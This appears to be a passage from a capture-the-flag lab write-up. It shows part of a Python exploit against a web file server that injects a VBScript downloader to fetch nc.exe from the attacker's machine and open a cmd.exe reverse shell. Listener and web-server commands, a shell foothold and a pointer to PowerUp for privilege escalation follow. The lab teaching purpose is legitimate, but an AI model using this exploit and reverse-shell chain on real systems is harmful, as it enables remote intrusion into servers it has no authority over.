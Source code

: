 ```py
	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```

Lets copy this into a file, editing the lines that we need to for this to work.
Specifically the `ip_addr` and thr `local_port` variables.

Lets see if this works.

# Gaining a Foothold
First, setup a netcat listener on port 4444.
`nc -lnvp 4444`
Second, setup a python webserver with the nc.exe within the directory the web server was started.
`python3 -m http.server 80`
Third, run the exploit script with python2. (Fails with just python or python3)
`python2 exploit.py 10.10.207.64 8080`
Had to run this twice before I got shell access!

```
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```
Get the flag from the user profile.

# Privilege Escalation
The room wants us to use a powershell script called [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)
